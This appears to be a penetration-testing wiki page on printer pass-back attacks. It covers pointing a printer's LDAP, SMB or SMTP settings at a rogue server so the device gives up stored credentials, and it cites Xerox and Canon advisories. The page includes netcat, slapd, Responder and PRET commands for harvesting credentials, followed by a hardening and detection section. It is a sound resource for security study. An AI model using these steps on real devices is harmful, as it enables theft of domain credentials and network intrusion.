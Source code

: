 # Information in Printers

{{#include ../../banners/hacktricks-training.md}}

There are several blogs in the Internet which **highlight the dangers of leaving printers configured with LDAP with default/weak** logon credentials.  \
This is because an attacker could **trick the printer to authenticate against a rogue LDAP server** (typically a `nc -vv -l -p 389` or `slapd -d 2` is enough) and capture the printer **credentials in clear-text**.

Also, several printers will contain **logs with usernames** or could even be able to **download all usernames** from the Domain Controller.

All this **sensitive information** and the common **lack of security** makes printers very interesting for attackers.

Some introductory blogs about the topic:

- [https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/](https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/)
- [https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856](https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856)

---
## Printer Configuration

- **Location**: The LDAP server list is usually found in the web interface (e.g. *Network ➜ LDAP Setting ➜ Setting Up LDAP*).
- **Behavior**: Many embedded web servers allow LDAP server modifications **without re-entering credentials** (usability feature → security risk).
- **Exploit**: Redirect the LDAP server address to an attacker-controlled host and use the *Test Connection* / *Address Book Sync* button to force the printer to bind to you.

---
## Capturing Credentials

### Method 1 – Netcat Listener

```bash
sudo nc -k -v -l -p 389     # LDAPS → 636 (or 3269)
```

Small/old MFPs may send a simple *simple-bind* in clear-text that netcat can capture. Modern devices usually perform an anonymous query first and then attempt the bind, so results vary.

### Method 2 – Full Rogue LDAP server (recommended)

Because many devices will issue an anonymous search *before* authenticating, standing up a real LDAP daemon yields much more reliable results:

```bash
# Debian/Ubuntu example
sudo apt install slapd ldap-utils
sudo dpkg-reconfigure slapd   # set any base-DN – it will not be validated

# run slapd in foreground / debug 2
slapd -d 2 -h "ldap:///"      # only LDAP, no LDAPS
```

When the printer performs its lookup you will see the clear-text credentials in the debug output.

> 💡  You can also use `impacket/examples/ldapd.py` (Python rogue LDAP) or `Responder -w -r -f` to harvest NTLMv2 hashes over LDAP/SMB.

---
## Recent Pass-Back Vulnerabilities (2024-2025)

Pass-back is *not* a theoretical issue – vendors keep publishing advisories in 2024/2025 that exactly describe this attack class.

### Xerox VersaLink – CVE-2024-12510 & CVE-2024-12511

Firmware ≤ 57.69.91 of Xerox VersaLink C70xx MFPs allowed an authenticated admin (or anyone when default creds remain) to:

* **CVE-2024-12510 – LDAP pass-back**: change the LDAP server address and trigger a lookup, causing the device to leak the configured Windows credentials to the attacker-controlled host.
* **CVE-2024-12511 – SMB/FTP pass-back**: identical issue via *scan-to-folder* destinations, leaking NetNTLMv2 or FTP clear-text creds.

A simple listener such as:

```bash
sudo nc -k -v -l -p 389     # capture LDAP bind
```

or a rogue SMB server (`impacket-smbserver`) is enough to harvest the credentials.  

### Canon imageRUNNER / imageCLASS – Advisory 20 May 2025

Canon confirmed a **SMTP/LDAP pass-back** weakness in dozens of Laser & MFP product lines. An attacker with admin access can modify the server configuration and retrieve the stored credentials for LDAP **or** SMTP (many orgs use a privileged account to allow scan-to-mail).  

The vendor guidance explicitly recommends:

1. Updating to patched firmware as soon as available.
2. Using strong, unique admin passwords.
3. Avoiding privileged AD accounts for printer integration.

---
## Automated Enumeration / Exploitation Tools

| Tool | Purpose | Example |
|------|---------|---------|
| **PRET** (Printer Exploitation Toolkit) | PostScript/PJL/PCL abuse, file-system access, default-creds check, *SNMP discovery* | `python pret.py 192.168.1.50 pjl` |
| **Praeda** | Harvest configuration (including address books & LDAP creds) via HTTP/HTTPS | `perl praeda.pl -t 192.168.1.50` |
| **Responder / ntlmrelayx** | Capture & relay NetNTLM hashes from SMB/FTP pass-back | `responder -I eth0 -wrf` |
| **impacket-ldapd.py** | Lightweight rogue LDAP service to receive clear-text binds | `python ldapd.py -debug` |

---
## Hardening & Detection

1. **Patch / firmware-update** MFPs promptly (check vendor PSIRT bulletins).
2. **Least-Privilege Service Accounts** – never use Domain Admin for LDAP/SMB/SMTP; restrict to *read-only* OU scopes.
3. **Restrict Management Access** – place printer web/IPP/SNMP interfaces in a management VLAN or behind an ACL/VPN.
4. **Disable Unused Protocols** – FTP, Telnet, raw-9100, older SSL ciphers.
5. **Enable Audit Logging** – some devices can syslog LDAP/SMTP failures; correlate unexpected binds.
6. **Monitor for Clear-Text LDAP binds** on unusual sources (printers should normally talk only to DCs).
7. **SNMPv3 or disable SNMP** – community `public` often leaks device & LDAP config.

---
## References

- [https://grimhacker.com/2018/03/09/just-a-printer/](https://grimhacker.com/2018/03/09/just-a-printer/)
- Rapid7. “Xerox VersaLink C7025 MFP Pass-Back Attack Vulnerabilities.” February 2025.  
- Canon PSIRT. “Vulnerability Mitigation Against SMTP/LDAP Passback for Laser Printers and Small Office Multifunction Printers.” May 2025.

{{#include ../../banners/hacktricks-training.md}}
